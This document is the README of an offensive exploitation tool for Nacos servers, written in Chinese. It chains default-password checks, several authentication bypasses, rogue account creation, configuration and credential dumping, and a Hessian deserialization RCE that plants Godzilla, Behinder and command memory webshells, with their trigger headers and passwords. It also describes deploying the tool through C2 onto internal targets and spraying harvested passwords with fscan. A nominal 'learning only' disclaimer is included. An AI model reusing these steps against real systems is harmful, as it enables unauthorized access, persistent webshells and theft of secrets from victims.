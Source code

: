 # HKEcho Nacos快速利用工具 v0.1

注意：工具仅供学习使用，请勿滥用，否则后果自负！

```
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
```

工具文件夹中HKEcho_Nacos.exe，nacosleak.exe均已通过upx压缩加壳减小体积。担心后门可自行编译或前往原项目地址下载。

## 原理

本工具支持检测以下漏洞：

```
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测nacos默认口令
2、任意用户添加
3、任意用户添加UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认JWT任意用户添加
6、JWT_Secret_Key硬编码绕过
7、Identity硬编码绕过
8、QVD-2023-6271身份认证绕过
一旦某个漏洞获取账号密码后，会调用a1phaboy师傅写的nacosleak读取配置文件

9、Nacos_Jraft_Hessian反序列化漏洞
程序会调用c0olw师傅写的NacosRce打一遍Jraft_Hessian反序列化漏洞（本工具在调用这个NacosRce工具前会判断Java环境，若不存在，则告警不执行）
```

## 安装

```
pip install -r requirements.txt
```

## 食用

```
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个URL:http://127.0.0.1:8848
  -f FILENAME  批量检测,包含URL的文本文件
```

**1、单个目标检测：**

```
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

![image-20231114180219893](.\images\image-20231114180219893.png)

**2、批量目标检测**：

新建txt文件，一行放一个Nacos的URL

```
python HKEcho_Nacos.py -f target.txt
```

![image-20231114191212752](.\images\image-20231114191212752.png)

**3、特殊场景下使用**

注意：HKEcho_Nacos.exe命令行界面在win11下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传python打包的HKEcho_Nacos.exe到C2上使用，注意，单纯上传HKEcho_Nacos.exe运行，会对内网目标nacos添加一个账号，不会对目标进行配置文件导出和检测Nacos_Jraft_Hessian反序列化漏洞。若想导出配置文件，可单独上传nacosleak.exe进行读取。

![image-20231115095419466](.\images\image-20231115095419466.png)

![image-20231115095310757](.\images\image-20231115095310757.png)

或者如下图直接将HKEcho_Nacos.exe与nacosleak.exe通过C2上传到目标服务器上同一目录下，直接执行HKEcho_Nacos.exe会自动调用nacosleak.exe

![image-20231115095608455](.\images\image-20231115095608455.png)

同理，若想检测检测Nacos_Jraft_Hessian反序列化漏洞，同理可以将NacosRce压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce太大了。

![image-20231115100233567](.\images\image-20231115100233567.png)

## Nacos后利用

### Nacos配置文件

上述利用完成后，会在/results/ip_port/public目录下生成目标站点的配置文件，a1phaboy师傅特别将ak/sk,password关键字提取了出来：

![image-20231114183758207](.\images\image-20231114183758207.png)

我们可以在内网可以通过该密码本快速爆破，比如利用fscan等工具

```
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞

一、冰蝎内存马：

```
1、需要设置请求头x-client-data:rebeyond
2、设置Referer:https://www.google.com/
3、路径随意
4、密码rebeyond
```

二、哥斯拉内存马：

```
1、需要设置请求头x-client-data:godzilla
2、设置Referer:https://www.google.com/
3、路径随意
4、密码是pass 和 key
```

三、CMD内存马：

```
1、需要设置请求头x-client-data:cmd
2、设置Referer:https://www.google.com/
3、请求头cmd:要执行的命令
```

#### **后渗透**

后渗透利用pap1rman师傅的哥斯拉nacos后渗透插件-postnacos

MakeToken

![250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b](.\images\250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b.png)

将生成后的token 保存进浏览器cookie 格式 token:{xxx}

![250532141-60089b8d-fa3d-4584-bc16-90dc5423d486](.\images\250532141-60089b8d-fa3d-4584-bc16-90dc5423d486.png)

**Adduser**

![250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f](.\images\250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f.png)

添加一个账号后，用nacosleak单独把配置文件读取下来。

```
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境

在github下载有漏洞的版本
https://github.com/alibaba/nacos/releases

![image-20231115102526342](.\images\image-20231115102526342.png)

![image-20231115102620390](.\images\image-20231115102620390.png)

## 参考链接

致谢：

https://github.com/Pizz33/nacos_vul

https://github.com/c0olw/NacosRce

https://github.com/pap1rman/postnacos
